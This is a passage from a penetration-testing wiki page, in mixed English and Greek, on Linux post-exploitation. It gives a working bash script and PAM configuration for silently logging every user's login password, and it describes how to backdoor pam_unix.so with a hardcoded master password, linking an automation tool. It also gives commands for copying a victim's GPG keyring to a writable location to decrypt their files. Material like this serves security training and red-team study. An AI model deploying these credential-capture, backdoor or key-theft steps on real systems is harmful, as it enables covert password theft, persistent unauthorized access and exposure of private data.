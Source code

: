 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:


{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Για περαιτέρω λεπτομέρειες δείτε το [πρωτότυπο άρθρο](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Αυτό είναι μόνο μια περίληψη:

**Technique Overview:**
Pluggable Authentication Modules (PAM) προσφέρουν ευελιξία στη διαχείριση authentication σε συστήματα βασισμένα σε Unix. Μπορούν να ενισχύσουν την ασφάλεια προσαρμόζοντας τις διαδικασίες login αλλά επίσης εγκυμονούν κινδύνους αν χρησιμοποιηθούν κακόβουλα. Αυτή η περίληψη περιγράφει μια τεχνική για την καταγραφή login credentials χρησιμοποιώντας PAM, μαζί με στρατηγικές μετριασμού.

**Capturing Credentials:**

- Ένα bash script με όνομα `toomanysecrets.sh` δημιουργείται για να καταγράφει τις προσπάθειες login, καταγράφοντας την ημερομηνία, το username (`$PAM_USER`), το password (via stdin), και τη διεύθυνση IP του remote host (`$PAM_RHOST`) στο `/var/log/toomanysecrets.log`.
- Το script γίνεται εκτελέσιμο και ενσωματώνεται στη PAM configuration (`common-auth`) χρησιμοποιώντας το `pam_exec.so` module με επιλογές για να τρέχει quietly και να εκθέτει το authentication token στο script.
- Η προσέγγιση δείχνει πώς ένας compromised Linux host μπορεί να εκμεταλλευτείται για να καταγράφει διακριτικά credentials.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**For further details check the [original post](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Αυτό είναι απλώς μια περίληψη:

The Pluggable Authentication Module (PAM) είναι ένα σύστημα που χρησιμοποιείται σε Linux για την πιστοποίηση χρηστών. Λειτουργεί με τρεις βασικές έννοιες: **username**, **password**, και **service**. Τα αρχεία ρυθμίσεων για κάθε service βρίσκονται στον κατάλογο `/etc/pam.d/`, όπου shared libraries αναλαμβάνουν την επαλήθευση ταυτότητας.

**Objective**: Τροποποιήστε το PAM ώστε να επιτρέπει authentication με ένα συγκεκριμένο password, παρακάμπτοντας το πραγματικό password του χρήστη. Αυτό εστιάζει ειδικά στη shared library `pam_unix.so` που χρησιμοποιείται από το αρχείο `common-auth`, το οποίο περιλαμβάνεται από σχεδόν όλες τις υπηρεσίες για την επαλήθευση του password.

### Steps for Modifying `pam_unix.so`:

1. **Locate the Authentication Directive** in the `common-auth` file:
- Η γραμμή που είναι υπεύθυνη για τον έλεγχο του password ενός χρήστη καλεί τη `pam_unix.so`.
2. **Modify Source Code**:
- Προσθέστε μια συνθήκη στο αρχείο πηγαίου κώδικα `pam_unix_auth.c` που θα δίνει πρόσβαση αν χρησιμοποιηθεί ένα προκαθορισμένο password, διαφορετικά προχωράει με τη συνήθη διαδικασία authentication.
3. **Recompile and Replace** the modified `pam_unix.so` library in the appropriate directory.
4. **Testing**:
- Η πρόσβαση επιτρέπεται σε διάφορες υπηρεσίες (login, ssh, sudo, su, screensaver) με το προκαθορισμένο password, ενώ οι κανονικές διαδικασίες authentication παραμένουν ανεπηρέαστες.

> [!TIP]
> Μπορείτε να αυτοματοποιήσετε αυτή τη διαδικασία με [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

## Decrypting GPG loot via homedir relocation

Αν βρείτε ένα κρυπτογραφημένο αρχείο `.gpg` και τον φάκελο `~/.gnupg` ενός χρήστη (pubring, private-keys, trustdb) αλλά δεν μπορείτε να αποκρυπτογραφήσετε λόγω δικαιωμάτων/κλειδώματος στο homedir του GnuPG, αντιγράψτε το keyring σε ένα εγγράψιμο σημείο και χρησιμοποιήστε το ως GPG home.

Τυπικά σφάλματα που θα δείτε χωρίς αυτό: "unsafe ownership on homedir", "failed to create temporary file", ή "decryption failed: No secret key" (επειδή το GPG δεν μπορεί να διαβάσει/γράψει το αρχικό homedir).

Ροή εργασίας:
```bash
# 1) Stage a writable homedir and copy the victim's keyring
mkdir -p /dev/shm/fakehome/.gnupg
cp -r /home/victim/.gnupg/* /dev/shm/fakehome/.gnupg/
# 2) Ensure ownership & perms are sane for gnupg
chown -R $(id -u):$(id -g) /dev/shm/fakehome/.gnupg
chmod 700 /dev/shm/fakehome/.gnupg
# 3) Decrypt using the relocated homedir (either flag works)
GNUPGHOME=/dev/shm/fakehome/.gnupg gpg -d /home/victim/backup/secrets.gpg
# or
gpg --homedir /dev/shm/fakehome/.gnupg -d /home/victim/backup/secrets.gpg
```
Εάν το υλικό του ιδιωτικού κλειδιού βρίσκεται στο `private-keys-v1.d`, το GPG θα ξεκλειδώσει και θα αποκρυπτογραφήσει χωρίς να ζητήσει passphrase (ή θα ζητήσει αν το κλειδί είναι προστατευμένο).


## Αναφορές

- [0xdf – HTB Environment (GPG homedir relocation to decrypt loot)](https://0xdf.gitlab.io/2025/09/06/htb-environment.html)
- [GnuPG Manual – Home directory and GNUPGHOME](https://www.gnupg.org/documentation/manuals/gnupg/GPG-Configuration-Options.html#index-homedir)

{{#include ../../banners/hacktricks-training.md}}
